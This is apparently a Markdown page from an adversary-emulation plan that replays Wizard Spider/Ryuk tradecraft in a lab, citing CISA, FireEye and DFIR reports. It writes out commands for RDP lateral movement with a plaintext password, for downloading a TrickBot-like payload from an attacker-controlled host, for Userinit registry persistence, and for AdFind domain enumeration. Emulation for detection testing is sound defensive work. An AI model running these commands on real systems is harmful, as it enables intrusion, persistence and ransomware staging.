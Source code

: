 ### :biohazard: Procedures

:warning: Go back to your Toto RDP session and sign out: `Right-click Windows icon -> Shut down or sign out -> Sign out`

Rename your RDP terminal to "RDP to wizard"

RDP to wizard / 10.0.0.4.

```bash
# Wizard Spider has used RDP for lateral movement.[5][2][8]

xfreerdp +clipboard /u:oz\\vfleming /p:"q27VYN8xflPcYumbLMit" /v:10.0.0.4 /drive:X,wizard_spider/Resources/Ryuk/bin
```

:warning: Open an **administrator powershell**.

Download a trickbot variant (same binary with a zero appended to the very end)

```bash
# Wizard Spider has established persistence using Userinit by adding the Registry key HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon.[3]

Invoke-WebRequest -Uri http://192.168.0.4:8080/getFile/uxtheme.exe -OutFile $env:AppData\uxtheme.exe
```

```bash
Set-ItemProperty "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Userinit" "Userinit.exe, $env:AppData\uxtheme.exe" -Force
```

```bash
# Wizard Spider has also used AdFind and nltest/dclist to enumerate domain computers, including the domain controller.[4][5][3][7][6]

adfind -f "(objectcategory=group)"
```

### :microscope: Cited Intelligence

* https://us-cert.cisa.gov/ncas/alerts/aa20-302a
* https://www.fireeye.com/blog/threat-research/2020/10/kegtap-and-singlemalt-with-a-ransomware-chaser.html
* https://www.crowdstrike.com/blog/timelining-grim-spiders-big-game-hunting-tactics/
* https://thedfirreport.com/2020/11/05/ryuk-speed-run-2-hours-to-ransom/
* https://www.fireeye.com/blog/threat-research/2019/01/a-nasty-trick-from-credential-theft-malware-to-business-disruption.html
* https://thedfirreport.com/2020/10/08/ryuks-return/
* https://redcanary.com/blog/how-one-hospital-thwarted-a-ryuk-ransomware-outbreak/

## Test 4 (Step 8)

### Step 8 - Dump Active Directory Database (ntds.dit)
